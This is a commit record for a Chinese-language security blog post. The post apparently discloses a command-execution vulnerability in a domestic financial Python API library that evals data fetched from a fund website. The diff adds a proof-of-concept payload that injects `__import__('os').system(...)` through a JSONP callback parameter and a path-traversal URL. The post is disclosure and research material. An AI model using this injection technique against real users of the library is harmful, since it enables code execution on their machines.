

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md, in a window 1280 px wide and 900 px high, scrolled down 2825 px. Shown: the whole window, without its empty margins (158-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3623 px from its top, so only the background shows below that.

Commit message:
Update 2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md

````diff
--- a/_posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md
+++ b/_posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md
@@ -125,10 +125,16 @@ l = l.replace("null", "None")
 最后我想构造一个xss，想让网站返回想要的结果，也失败了
 
 经过半天的找寻，终于发现一个回调函数接口有问题，请求错误回调函数名称时，响应中正好会包含该错误的函数名称. 正好能满足我们的需求:发送错误数据，并让该网站返回我们想要的结果，即返回数据可控
-回调函数接口如下
+该回调函数接口如下
+```url
+http://fund.eastmoney.com/pingzhongdata/gaoduan/PinzhongRightApi.aspx?fc=AF5097&callback=jQuery183037745026472073073_ Data_netWorthTrend=[需要返回的错误数据]&_=1688890155531#
 ```
-http://fund.eastmoney.com/pingzhongdata/../gaoduan/PinzhongRightApi.aspx?fc=AF5097&callback=jQuery183037745026472073073_ Data_netWorthTrend=[需要返回的错误数据]&_=1688890155531#
+
+于是，我们根据该接口，构造出payload
 ```
+../gaoduan/PinzhongRightApi.aspx?fc=AF5097&callback=jQuery183037745026472073073_ Data_netWorthTrend = __import__('os').system('echo 成功触发'); &_=1688890155531#
+```
+
 最后，正则成功捕获到该数据并正确处理，最后成功eval
 
 # [](#header-1)0x03、结果
````
